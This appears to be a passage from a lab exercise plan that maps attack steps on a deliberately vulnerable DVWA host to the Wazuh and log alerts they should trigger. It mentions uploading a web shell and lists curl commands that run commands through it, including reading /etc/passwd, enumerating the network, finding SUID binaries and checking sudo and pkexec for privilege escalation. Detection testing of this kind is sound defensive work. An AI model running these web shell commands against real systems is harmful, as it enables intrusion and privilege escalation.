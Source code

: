 ```bash
# Upload via DVWA file upload vulnerability
# (Manual step through web interface)
```

**Expected Detections:**

- File Integrity Monitoring: New file in /var/www/html/
- Wazuh Rule: 550 (Integrity checksum changed)
- Alert Level: High

### Phase 3: Command Execution (10 minutes)

#### 3.1 Web Shell Execution

```bash
# Execute commands via uploaded shell
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=whoami"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=id"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=uname -a"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=ps aux"
```

**Expected Detections:**

- Apache access logs: Suspicious PHP execution
- Wazuh Rule: 31108 (Web shell execution)
- Alert Level: Critical

#### 3.2 System Enumeration

```bash
# Network enumeration
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=netstat -tulpn"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=arp -a"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=cat /etc/passwd"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=find / -perm -4000 2>/dev/null"
```

**Expected Detections:**

- System command execution via web interface
- Wazuh Rule: 31109 (System enumeration via web)
- Alert Level: High

### Phase 4: Privilege Escalation (10 minutes)

#### 4.1 Local Privilege Escalation

```bash
# Check for sudo privileges
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=sudo -l"

# Check for SUID binaries
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=find /usr/bin -perm -4000 2>/dev/null"

# Attempt privilege escalation (example with vulnerable binary)
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=/usr/bin/pkexec --version"
```
